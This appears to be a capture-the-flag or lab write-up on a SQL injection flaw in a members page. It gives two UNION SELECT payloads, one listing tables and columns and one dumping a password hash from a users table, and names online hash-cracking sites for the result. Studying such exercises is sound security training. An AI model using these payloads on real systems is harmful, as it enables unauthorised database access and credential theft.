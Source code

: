 # SQL Injection on Members Page

On the members page, when entering alphabetic characters, we see the MariaDB error message. We can use the following SQL injection to retrieve all table names and column names:

```sql
1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
```

By searching, we find the columns `countersign` and `Commentaire` from the `users` table:

```sql
1 UNION SELECT countersign, Commentaire FROM users
```

We retrieve the following data:

```
5ff9d0165b4f92b14994e5c685cdce28
Surname: Decrypt this password -> then lower all the characters. SHA256 hash it and it's good!
```

To decrypt the password, visit:
- [MD5 Decrypt](https://md5decrypt.net/)
- [dCode SHA256](https://www.dcode.fr/hash-sha256)